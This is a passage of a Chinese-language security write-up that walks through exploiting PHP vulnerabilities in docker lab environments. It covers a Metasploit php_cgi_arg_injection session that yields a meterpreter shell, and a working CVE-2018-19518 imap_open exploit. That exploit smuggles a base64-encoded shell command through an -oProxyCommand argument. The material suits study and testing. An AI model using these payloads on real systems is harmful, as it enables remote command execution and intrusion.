 使用蚁剑连接即可

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-27153a5219f819e142622429f5ed13fdbf1a5e4c.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-27153a5219f819e142622429f5ed13fdbf1a5e4c.png)

或者使用msf里面的`php_cgi_arg_injection`模块，配置参数即可得到一个meterpreter

```php
search php_cgi
use exploit/multi/http/php_cgi_arg_injection
set rhosts 192.168.1.10
set rport 8080
set lhost 192.168.1.9
```

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-ddab03c6b12329eb17a3eae501fae39195399734.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-ddab03c6b12329eb17a3eae501fae39195399734.png)

CVE-2018-19518
==============

CVE-2018-19518即PHP imap 远程命令执行漏洞，PHP 的imap\_open函数中的漏洞可能允许经过身份验证的远程攻击者在目标系统上执行任意命令。该漏洞的存在是因为受影响的软件的imap\_open函数在将邮箱名称传递给rsh或ssh命令之前不正确地过滤邮箱名称。如果启用了rsh和ssh功能并且rsh命令是ssh命令的符号链接，则攻击者可以通过向目标系统发送包含-oProxyCommand参数的恶意IMAP服务器名称来利用此漏洞。成功的攻击可能允许攻击者绕过其他禁用的exec 受影响软件中的功能，攻击者可利用这些功能在目标系统上执行任意shell命令。

进入CVE-2018-19518的docker环境

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-aa795c9633627c7eb734d3a0b8018d6d457d40b9.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-aa795c9633627c7eb734d3a0b8018d6d457d40b9.png)

访问8080端口有三个文本框

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-019447795864f9e77c7119ac21b309e7db8c97b1.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-019447795864f9e77c7119ac21b309e7db8c97b1.png)

这里随便填一下文本框的内容

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-9c88b9c1af486d861af2bb35c4b54e359ffc24c4.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-9c88b9c1af486d861af2bb35c4b54e359ffc24c4.png)

使用exp进行发包，这个payload的作用应该是往/tmp/目录下写入一个`test0001`，内容为`1234567890`

```php
<?php
# CRLF (c)
# echo '1234567890'>/tmp/test0001

$server = "x -oProxyCommand=echo\tZWNobyAnMTIzNDU2Nzg5MCc+L3RtcC90ZXN0MDAwMQo=|base64\t-d|sh}";

imap_open('{'.$server.':143/imap}INBOX', '', '') or die("\n\nError: ".imap_last_error());
```

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-dc3a1f922da8bf3fb0d6cc31e4b4eee1453da062.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-dc3a1f922da8bf3fb0d6cc31e4b4eee1453da062.png)
